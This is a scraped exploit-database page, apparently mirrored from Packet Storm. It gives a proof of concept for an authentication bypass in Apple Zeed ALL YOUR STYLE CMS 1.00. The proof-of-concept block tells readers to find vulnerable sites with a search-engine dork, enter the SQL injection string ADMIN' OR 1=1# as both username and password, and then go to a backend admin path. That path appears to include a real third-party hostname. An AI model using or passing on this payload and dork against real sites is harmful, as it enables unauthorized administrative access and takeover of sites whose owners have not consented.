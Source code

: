 ```yaml
---
title: Apple Zeed ALL YOUR STYLE CMS 1.00 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172533&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-25
fetch_date: 2025-10-04T11:37:07.128191
---
```


# Apple Zeed ALL YOUR STYLE CMS 1.00 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Apple Zeed ALL YOUR STYLE CMS 1.00 SQL Injection

2023-05-24 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172533
========================================================================================
| # Title : Apple Zeed ALL YOUR STYLE CMS 1.00 Auth By Pass Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 109.0(64-bit) |
| # Vendor : https://www.applezeed.com/web-creative-package-all-your-style.php |
| # Dork : Power BY applezeed.com |
========================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] Use payload : User & Pass : ADMIN' OR 1=1#

[+] https://127.0.0.1/https/biggestjoy.com/backend/admin.php?mod=sitemap

Greetings to :=============================================================================
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm*|
===========================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)